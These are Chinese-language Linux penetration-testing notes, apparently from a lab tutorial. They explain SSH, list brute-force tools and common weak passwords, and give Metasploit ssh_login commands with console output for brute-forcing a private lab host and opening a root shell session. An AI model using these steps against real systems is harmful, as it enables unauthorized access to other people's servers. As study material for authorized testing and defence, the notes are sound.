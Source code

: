 # 对Linux的渗透
## ssh
- SSH是基于应用层的安全协议
- SSH是专为远程登陆和其他网络服务提供安全性的协议
- SSH提供基于密码、基于密钥的两种级别的安全验证
- SSH传输的数据会进行加密，可以有效防止远程过程中的信息泄露问题
- SSH传输的数据时会进行数据压缩，可以加快传输的速度
### SSH暴力破解工具
- Hydra、Medusa、msf
- 大部分攻击都是针对Linux服务器默认管理账号root，攻击者主要使用admin、root、123456等常见弱密码进行暴力破解
- 少部分攻击是针对Linux服务器上常见应用程序使用的用户名
- 攻击者不仅使用常见通用弱密码，还会将用户名当最密码进行攻击
### SSH爆破
#### 创建字典
- 手写一个简单的字典，或者从网上白嫖
```
vim /root/passwd              //创建一个实验用的密码本
```
#### 查找MSF辅助爆破脚本
```
┌──(root㉿kali)-[~]
└─# msfconsole -q                 //进入MSF控制台
msf6 > search ssh_login         //搜索ssh登录相关程序相关脚本

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  auxiliary/scanner/ssh/ssh_login                          normal  No     SSH Login Check Scanner
   1  auxiliary/scanner/ssh/ssh_login_pubkey                   normal  No     SSH Public Key Login Scanner


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/ssh/ssh_login_pubkey                                          
```
#### 使用辅助脚本进行SSH爆破
```
msf6> use 0
set username msfadmin         //设置用户名
set pass_file /root/passwd      //设置密码本
set rhosts 192.168.10.143       //设置攻击目标
```
#### 查看会话、切换会话
```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions //显示所有会话

Active sessions
===============

  Id  Name  Type         Information  Connection
  --  ----  ----         -----------  ----------
  1         shell linux  SSH root @   192.168.10.224:43951 -> 192.168.10.14
                                      3:22 (192.168.10.143)

msf6 auxiliary(scanner/ssh/ssh_login) > sessions 1  //切换到会话1
[*] Starting interaction with 1...
```